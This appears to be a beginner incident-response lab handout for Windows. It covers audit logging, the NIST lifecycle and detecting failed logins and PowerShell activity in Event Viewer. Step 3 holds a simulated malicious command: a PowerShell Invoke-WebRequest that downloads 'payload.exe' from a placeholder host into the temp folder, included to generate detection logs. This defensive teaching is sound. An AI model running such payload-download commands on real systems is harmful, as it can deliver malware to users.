 # **Day#1: Introduction to Incident Response**

## **Objective:**
The objective of this lab is to introduce students to the **core concepts of incident response**, familiarize them with the **incident response lifecycle**, and help them understand how basic threats on Windows systems are detected, analyzed, and responded to by SOC Analysts.

---

## **Lab Setup**

### **Requirements:**
- **System:** Windows 10/11 or Windows Server 2019/2022
- **Tools:**
  - **Windows Event Viewer**
  - **PowerShell (Pre-installed)**
  - **Task Manager / Process Explorer**
  - **Sysinternals Tools (optional)**

---

## **Preparation:**

Before diving into the lab, ensure the system is logging essential security-related events and the environment is prepared for simulating a basic security incident.

### **Enable Audit Logging:**
1. Open **Local Security Policy** (`secpol.msc`).
2. Navigate to:  
   `Advanced Audit Policy Configuration → Audit Policies → Logon/Logoff`.
3. Enable:
   - **Audit Logon Events** (Success, Failure)
   - **Audit Process Creation**

4. Use Group Policy or Registry to enable:
   - **Script Block Logging** for PowerShell
   - **Module Logging**

---

## **What is Incident Response?**

**Incident Response (IR)** is the structured approach to handle and manage the aftermath of a **security breach or cyberattack**, also known as an incident. It includes steps to:
- Detect the incident
- Contain the damage
- Investigate the root cause
- Recover normal operations
- Report and document findings

---

## **Incident Response Process (NIST SP 800-61 Rev. 2)**

The NIST Incident Response Lifecycle includes **4 main phases**:

| **Phase**                         | **Description**                                                                 |
|----------------------------------|---------------------------------------------------------------------------------|
| **1. Preparation**               | Establish policies, train team, and set up tools and logging mechanisms.       |
| **2. Detection and Analysis**    | Identify potential incidents using logs, alerts, and anomaly detection systems.|
| **3. Containment, Eradication, and Recovery** | Isolate threats, remove malware/artifacts, and restore systems securely.       |
| **4. Post-Incident Activity**    | Conduct lessons learned, create reports, and improve incident response plans.  |

---

## **Common Types of Incidents on Windows:**
- Unauthorized login attempts
- PowerShell-based attacks
- Malware/ransomware execution
- Credential dumping
- Lateral movement using remote desktop or WMI

---

## **How SOC Analysts Respond to Incidents:**
- Monitor logs and alerts (via SIEM)
- Investigate suspicious behavior
- Contain and isolate infected systems
- Coordinate with other teams
- Document and report the incident

---

## **Lab Task: Simulating and Responding to Unauthorized Access**

### **Step 1: Simulate a Failed Login Attempt**
1. On the Windows machine, **lock the system** (`Win + L`).
2. Attempt to log in with an **invalid password** 2–3 times.

### **Step 2: Detect the Incident Using Event Viewer**
1. Open **Event Viewer**.
2. Navigate to:  
   `Windows Logs → Security`
3. Click on **Filter Current Log**, filter by **Event ID 4625** (failed logon).
4. Locate the log entry showing the failed login attempt.
5. Note down:
   - Account Name used
   - Source IP (if any)
   - Logon Type

---

### **Step 3: Simulate a Suspicious PowerShell Command**
Run this from an **elevated PowerShell** session:

```powershell
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "$env:TEMP\payload.exe"
```
This mimics downloading a suspicious file.

Step 4: Detect the PowerShell Activity
1. Open Event Viewer.
2. Navigate to:
`Applications and Services Logs → Microsoft → Windows → PowerShell → Operational`
3. Filter by Event ID 4104.
4. Identify the PowerShell command used.

Step 5: Basic Response Actions
- Kill the suspicious process from Task Manager.
- Delete the file payload.exe from %TEMP%.
- Take note of timestamps, user account, and command line parameters.

Conclusion:
- You learned the basic steps of detecting and responding to two common incidents: failed logins and suspicious PowerShell activity.
- Incident response involves quick detection, containment, and investigation using built-in tools like Event Viewer and PowerShell logs.
- Even basic Windows environments can generate rich telemetry for incident detection.

Submission:
Submit two screenshots:
- One showing Event ID 4625 for the failed login attempt.
- One showing PowerShell Event ID 4104 for the download attempt.

